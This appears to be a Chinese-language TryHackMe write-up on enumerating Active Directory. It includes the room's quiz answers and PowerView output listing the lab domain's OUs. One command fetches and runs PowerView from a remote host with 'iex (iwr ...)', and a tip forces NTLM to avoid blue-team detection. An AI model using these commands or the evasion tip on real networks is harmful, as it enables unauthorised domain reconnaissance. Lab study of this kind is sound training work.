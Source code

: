 使用主机名，走的是Kerberos验证（容易被蓝队感知）
```
dir \\za.tryhackme.com\SYSVOL
```

使用IP，强制走NTML验证
```
dir \\<DC IP>\SYSVOL
```

> What native Windows binary allows us to inject credentials legitimately into memory?

> runas.exe

> What parameter option of the runas binary will ensure that the injected credentials are used for all network connections?

> /netonly

> What network folder on a domain controller is accessible by any authenticated AD account and stores GPO information?

> SYSVOL

> When performing dir \\za.tryhackme.com\SYSVOL, what type of authentication is performed by default?

> Kerberos Authentication

# Task 3  Enumeration through Microsoft Management Console

thm的rdp环境非常卡，这一节我用PowerView做

远程加载PowerView
```
iex (iwr http://10.50.6.131/PowerView.ps1 -UseBasicParsing)
```

枚举所有OU
```
PS C:\Users\andrea.mitchell> iex (iwr http://10.50.6.131/PowerView.ps1 -UseBasicParsing)
PS C:\Users\andrea.mitchell> Get-NetOU
LDAP://OU=Domain Controllers,DC=za,DC=tryhackme,DC=com
LDAP://OU=People,DC=za,DC=tryhackme,DC=com
LDAP://OU=Groups,DC=za,DC=tryhackme,DC=com
LDAP://OU=Servers,DC=za,DC=tryhackme,DC=com
LDAP://OU=Unix,OU=Servers,DC=za,DC=tryhackme,DC=com
LDAP://OU=Workstations,DC=za,DC=tryhackme,DC=com
LDAP://OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=com
LDAP://OU=Sales,OU=People,DC=za,DC=tryhackme,DC=com
LDAP://OU=Engineering,OU=People,DC=za,DC=tryhackme,DC=com
LDAP://OU=IT,OU=People,DC=za,DC=tryhackme,DC=com
LDAP://OU=Marketing,OU=People,DC=za,DC=tryhackme,DC=com
LDAP://OU=Human Resources,OU=People,DC=za,DC=tryhackme,DC=com
LDAP://OU=Finance,OU=People,DC=za,DC=tryhackme,DC=com
LDAP://OU=Admins,DC=za,DC=tryhackme,DC=com
LDAP://OU=Contoso,DC=za,DC=tryhackme,DC=com
LDAP://OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Accounts,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Computers,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Groups,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Admins,OU=Accounts,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Service Accounts,OU=Accounts,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Users,OU=Accounts,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Servers,OU=Computers,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Workstations,OU=Computers,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=Security Groups,OU=Groups,OU=ZA,DC=za,DC=tryhackme,DC=com
LDAP://OU=T0,OU=Admins,DC=za,DC=tryhackme,DC=com
LDAP://OU=T1,OU=Admins,DC=za,DC=tryhackme,DC=com
```